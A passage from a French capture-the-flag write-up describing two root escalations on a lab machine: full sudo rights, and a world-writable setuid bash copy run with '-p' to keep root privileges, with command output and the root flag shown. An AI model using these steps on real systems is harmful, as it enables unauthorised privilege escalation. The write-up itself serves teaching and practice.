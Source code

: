 Ni une ni deux :  

```plain
cebu@rosee:/var$ sudo -l
[sudo] password for cebu:
Matching Defaults entries for cebu on rosee:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cebu may run the following commands on rosee:
    (ALL : ALL) ALL
cebu@rosee:/var$ sudo su
root@rosee:/var# cd /root
root@rosee:~# cat root.txt
adb23419c67f23540fca29392de30177984a17a4
```

I read your mails
-----------------

Il y a un autre chemin vers root, plus intéressant :  

```plain
cebu@rosee:~$ cat /var/spool/mail/cebu
From: CEO <ceo@localhost>
To: Cebu <cebu@localhost>
Subject: Rootkit attack + Data breach

Hey Cebu . Since the hosting platform where our website is hosted has been hacked and a rootkit has been installed in our server .
Fortunately , I removed it but can you verify if that rootkit which spawns a shell  hasn't corrupted or backdoored any file or binary ??
And if nobody can't spawn  a root shell easily ?

Greetings .
```

Il y a en effet un binaire setuid :  

```plain
[+] World-writable SUID files owned by root:
-rwsrwxrwx 1 root root 1113504 Aug  9 15:26 /usr/bin/sudo.old
```

Comme vu sur un autre CTF toute tentative de modifier un binaire avec ce flag va retirer son bit setuid (pas bête les penguins)...  

Ce binaire ne semble pas donner de shell root... à première vue :  

```plain
www-data@rosee:/var/www/admin/blog/templates/protostar$ sudo.old
sudo.old-4.4$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

C'est simplement parce que le binaire est une copie de bash et que ce programme droppe par défaut ses privilèges. Il suffit alors de l'appeler avec l'option -p :  

```plain
www-data@rosee:/var/www/admin/blog/templates/protostar$ sudo.old -p
sudo.old-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

Effective UID is effective !

*Published November 17 2020 at 14 29*